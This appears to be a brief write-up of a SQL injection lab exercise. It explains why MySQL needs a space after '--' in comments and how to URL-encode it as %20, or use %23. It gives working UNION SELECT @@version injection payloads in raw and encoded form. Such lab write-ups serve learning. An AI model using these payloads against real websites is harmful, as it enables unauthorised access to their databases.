

## Here's Exactly What I Did (Step by Step)

---

### Step 1: I tried the normal way

**Payload:**
```sql
' UNION SELECT @@version, NULL --
```

**Result:** ❌ Internal Server Error

I didn't know why.

---

### Step 2: I realized it needed a space

I remembered: *"MySQL needs a space after --"*

**Payload with space:**
```sql
' UNION SELECT @@version, NULL -- 
```

But I can't just type a space in a URL.

---

### Step 3: I encoded the space

Space in URL = `%20`

**My working payload:**
```
' UNION SELECT @@version, NULL --%20
```

**URL encoded:**
```
%27%20UNION%20SELECT%20@@version%2C%20NULL%20--%20
```

**Result:** ✅ It worked!

---

### Step 4: I understood the secret

| What I sent | What MySQL received | Result |
|-------------|---------------------|--------|
| `--` | `--` (not a comment) | ❌ Error |
| `--%20` | `-- ` (space = comment) | ✅ Works |

---

## The Simple Rule I Discovered

**In MySQL comments:**
- `--` = ❌ Doesn't work  
- `-- ` = ✅ Works  
- In URLs: `--%20` = ✅ Works  

**Even easier:**
- Use `#` instead → `%23` = ✅ Works (no space needed)

---

## My Final Working Payloads

**Using `--%20`:**
```
%27%20UNION%20SELECT%20@@version%2C%20NULL%20--%20
```

**Using `%23` (#):**
```
%27%20UNION%20SELECT%20@@version%2C%20NULL%20%23
```

---

## One Sentence Summary

I discovered that MySQL requires a space after `--` for comments, encoded it as `%20` in the URL, and solved the lab.

